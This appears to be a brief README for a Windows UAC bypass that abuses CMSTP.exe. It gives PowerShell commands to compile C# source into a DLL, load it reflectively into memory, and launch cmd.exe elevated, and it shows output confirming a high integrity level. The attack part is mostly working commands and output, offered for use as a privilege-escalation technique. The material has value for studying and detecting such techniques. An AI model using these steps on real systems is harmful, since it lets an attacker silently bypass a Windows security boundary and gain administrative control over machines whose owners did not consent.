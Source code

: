 # UAC Bypass - CMSTP

Use CMSTP.exe to bypass UAC. All credits go to zc00l: https://0x00-0x00.github.io/research/2018/10/31/How-to-bypass-UAC-in-newer-Windows-versions.html

The C# code can be compiled locally using PowerShell:

```Add-Type -TypeDefinition ([IO.File]::ReadAllText("C:\Temp\Source.cs")) -ReferencedAssemblies "System.Windows.Forms" -OutputAssembly "C:\Temp\test.dll"```

This DLL can be loaded directly into PowerShell using Reflection.Assembly:

```[Reflection.Assembly]::Load([IO.File]::ReadAllBytes("C:\Temp\test.dll"))```

Then each elevated command can be successfully executed:

```
[CMSTPBypass]::Execute("C:\Windows\System32\cmd.exe")

> whoami /groups
--snip--
Mandatory Label\High Mandatory Level
```
